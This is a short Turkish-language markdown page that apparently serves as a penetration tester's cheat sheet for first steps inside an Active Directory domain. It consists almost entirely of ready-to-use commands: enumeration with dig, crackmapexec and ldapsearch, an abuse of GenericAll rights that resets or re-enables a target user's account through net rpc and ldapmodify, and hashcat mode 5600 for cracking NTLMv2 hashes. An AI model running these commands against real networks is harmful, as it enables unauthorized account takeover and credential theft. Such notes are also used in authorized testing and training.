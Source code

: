 ```yaml
---
layout: page
title: "Genellikle İlk Yapılacak İşlemler"
permalink: /linux/ad-ortamina-giris/
---
```


```bash
dig any @ip hostname
```

```bash
crackmapexec smb IP-ADRESI -u Test1 -d test.local -p "Passwd123"
```

```bash
ldapsearch -x -H ldap://IP -D "username@hostname" -w "Passwd123" -b "" -s base
```


GenericAll Yetkisi varsa
```bash
net rpc password TARGETUSERNAME 'YeniParola123..' -U 'test.local/ElindekiKullanıcıAdı%ElindekiKullanıcınınŞifresi' -S dc.test.local

veya!!!!

net rpc user enable TARGETUSERNAME -U 'test.local/ElindekiKullanıcıAdı%ElindekiKullanıcınınŞifresi' -S dc.test.local
```

```bash
ldapmodify -x -H ldap://dc.test.local -D 'MevcutKullanıcı@test.local' -w 'Passwd123' <<EOF
dn: HEDEFLENEN KULLANICI DN
changetype: modify
replace: userAccountControl
userAccountControl: 512
EOF
 ile kullancııy etkilenştirir 514 inaktif demek.
```


ntlmv2 -> hashcat -m 5600 
